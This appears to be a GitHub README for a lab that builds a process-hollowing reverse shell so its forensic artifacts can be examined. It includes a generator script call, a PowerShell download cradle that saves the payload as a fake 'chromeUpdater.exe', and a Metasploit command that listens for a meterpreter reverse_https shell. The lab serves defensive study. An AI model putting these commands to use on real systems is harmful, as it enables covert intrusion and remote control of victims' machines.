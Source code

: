# Investigating Process Hollowing Reverse Shells

This repository is meant to be a quick walkthrough to see the artifacts left by a process hollowing reverse shell. 

## Test Enviroment Set-up


### VM Set-up

So for the test enviroment I had three machines set up. Each one was set up with a bridged network adapter to my local network. 

In reality, you only need 1 Kali VM and 1 Windows VM. I like keeping my DEV and USER machines separate, so I can test on a relatively clean install of windows. 

* VM Links
    * [Windows VM Template](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)
    * [Kali VM Template](https://www.kali.org/get-kali/)


* Windows:
    * DEV
    * USER
* Linux:
    * Kali



### VM Installs

* User Box:
    * Install [Process Hacker](https://sourceforge.net/projects/processhacker/)
    * Install [SysInternals Tool Suite](https://download.sysinternals.com/files/SysinternalsSuite.zip)

* Kali Box:
    * Clone this Repository
        * `git clone https://github.com/Soups71/ProcessHollowing` 



## Generating the Process Hollowing Reverse Shell

On the Kali VM, 

```bash
cd ~/ProcessHollowing/ProcHollowing

chmod +x ./create_prochollow.sh

# Note that the Listener IP is the IP of your Kali VM.
./create_prochollow.sh <listener_IP> <listener_Port> <Key (ex. '2b')>

```

This will allow create a file "exploit.cs", this can then be compiled on your windows DEV machine.

On the Dev VM, Open Visual Studio.

* Select new project.
* Select "Console App (.NET Framework)"

![App Type](images/consoleapp.png)


* Paste the contents from `expolit.cs` on the Kali VM to the Visual Studio Project.
* Build the app for `x64` architecture and in `Release mode`. This code will not work for `x86` based architecture.

![Build Configuration](images/buildconfig.png)

* Once built you can transfer the file to the user VM, or leave it on the same machine if you didn't set up a second windows VM. Below is a Powershell download cradle if you want to pull the reverse shell executable from your Kali host.
    * `Invoke-webrequest -uri http://<Kali IP>:8000/procHollowing.exe -outfile C:\Windows\tasks\chromeUpdater.exe`

## Setting up listener

On the Kali VM, you'll need to set up a listener. You'll have to change the `LPORT` if you selected a port other than `443`

```bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 0.0.0.0;set LPORT 443; set exitfunc thread;set EXITONSESSION FALSE;run -jz;"
```

## Disclaimer

This repository is intended for educational purposes only. The provided code, including the process hollowing reverse shell implementation, is meant to serve as a learning resource. The author does not endorse or encourage any misuse of this code for malicious purposes. Users are solely responsible for their actions, and any usage of the code outside the scope of ethical learning is strictly discouraged.